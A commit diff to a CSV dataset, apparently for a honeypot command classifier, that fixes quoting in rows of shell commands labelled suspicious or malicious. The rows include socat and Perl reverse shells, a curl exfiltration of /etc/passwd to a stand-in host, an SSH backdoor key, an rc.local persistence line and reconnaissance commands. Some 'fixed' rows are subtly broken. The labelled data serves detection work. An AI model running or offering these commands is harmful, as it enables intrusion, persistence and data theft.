

Before and after one commit to Notee-ai/blockPot-AI, a CSV file: Dataset/commands-classification-cleaned.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/Dataset/commands-classification-cleaned.csv
+++ b/Dataset/commands-classification-cleaned.csv
@@ -222,3 +222,3 @@ id,command,classification
 221,ls -la /var/spool/cron/*; cat /var/spool/cron/root,suspicious
-222,ps -eo pid,"user,cmd; ps auxwww,suspicious"
+222,"ps -eo piduser,cmd; ps auxwww",suspicious
 223,curl -s ifconfig.me/ip; wget -qO- ifconfig.me/ip,suspicious
@@ -281,3 +281,3 @@ id,command,classification
 280,"awk -F: '($3 < 1000) {print $1 "":"" $3}' /etc/passwd",suspicious
-281,mount -o remount,"rw /; mount -o remount,exec /tmp,suspicious"
+281,"mount -o remountrw /; mount -o remount,exec /tmp",suspicious
 282,cat /proc/sched_debug | head -n 30,suspicious
@@ -299,3 +299,3 @@ id,command,classification
 298,"grep -r ""StrictHostKeyChecking"" /etc /home",suspicious
-299,cat /etc/*-release; cat /etc/issue{,".net},suspicious"
+299,cat /etc/*-release; cat /etc/issue{.net},suspicious
 300,"find / -path ""*/config/database.php"" 2>/dev/null",suspicious
@@ -314,3 +314,3 @@ id,command,classification
 313,"base64 -d <<< ""cGFzc3dvcmRzdGVhbGVyLnB5"" | python",malicious
-314,socat exec:'bash -li',"tcp:attacker.com:4444,malicious"
+314,socat exec:'bash -li'tcp:attacker.com:4444,malicious
 315,"echo ""ssh-rsa AAAAB...snip... attacker@evil"" >> ~/.ssh/authorized_keys",malicious
@@ -321,3 +321,3 @@ id,command,classification
 320,"curl -X POST -d ""$(cat /etc/passwd)"" hxxp://datastealer.com/exfil",malicious
-321,"perl -e 'use Socket;$i=""10.0.0.1"";$p=1234;socket(S","PF_INET,SOCK_STREAM,getprotobyname(""tcp""));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"">&S"");open(STDOUT,"">&S"");open(STDERR,"">&S"");exec(""/bin/sh -i"");};',malicious"
+321,"perl -e 'use Socket;$i=""10.0.0.1"";$p=1234;socket(SPF_INET,SOCK_STREAM,getprotobyname(""tcp""));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"">&S"");open(STDOUT,"">&S"");open(STDERR,"">&S"");exec(""/bin/sh -i"");};'",malicious
 322,"echo ""wget -q -O- hxxp://attacker.com/shell.php | php"" > /etc/rc.local",malicious
```
Also changed, not shown: 14 edited cells elsewhere in this file, 1 other file.
